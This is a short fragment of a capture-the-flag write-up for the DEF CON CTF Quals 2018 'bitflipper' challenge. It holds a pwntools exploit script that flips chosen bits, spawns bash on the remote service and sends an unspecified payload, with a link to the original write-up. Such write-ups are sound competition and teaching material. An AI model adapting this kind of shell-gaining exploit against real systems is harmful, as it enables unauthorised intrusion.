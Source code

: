 ```python  
r.sendline(str(len(BITS_TO_FLIP)))

for b in BITS_TO_FLIP:  
   r.recvuntil('(0-81727)? ')  
   r.sendline(str(b))

log.info('Waiting for shell to run...')  
sleep(1)

log.info('Sending payload: %s', PAYLOAD)

r.sendline('bash')  
r.sendline(PAYLOAD)  
r.sendline('exit')  
r.sendline('exit')

output = r.recvall()

print('', output, sep='\n')

log.success('Gottem!')  
r.close()  
```

Original writeup
(https://mhackeroni.it/archive/2018/05/20/defconctfquals-2018-all-
writeups.html#bitflipper).